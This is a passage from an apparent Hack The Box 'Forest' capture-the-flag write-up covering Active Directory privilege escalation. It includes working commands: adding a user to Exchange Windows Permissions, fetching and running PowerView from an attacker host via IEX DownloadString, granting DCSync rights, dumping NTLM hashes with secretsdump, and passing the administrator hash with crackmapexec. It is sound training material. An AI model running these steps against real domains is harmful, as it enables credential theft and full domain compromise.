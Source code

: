 - Secondly we add this new user to **Exchange Windows Permission** group

```bash
net group 'Exchange Windows Permissions' centesiman /add
The command completed successfully.
```

In order to escalate privilege we have perform a DCSync Attack as Bloodhound suggests. This attack consists in giving a user DCSync rights, which will allow us to dump the SAM from the DC.

```bash
$SecPassword = ConvertTo-SecureString 'cente234!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\centesiman', $SecPassword)
```

In order to give this new user the DCSync right we need a tool from PowerView.

```bash
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.17/PowerView.ps1')
```

Finally, we can give this new user the proper rights.

```bash
Add-ObjectAcl -Credential $Cred -PrincipalIdentity centesiman -Rights DCSync
```

This allow us to dump the SAM of the DC and get all the NTLM hashes, including the hash of the administrator user.

```bash
impacket-secretsdump htb.local/centesiman:'cente234!'@10.10.10.161 
Impacket v0.11.0 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
```

With the NTML hash of the administrator user we can login to the machine.

```bash
crackmapexec smb 10.10.10.161 -u "administrator" -H "aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6"             
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```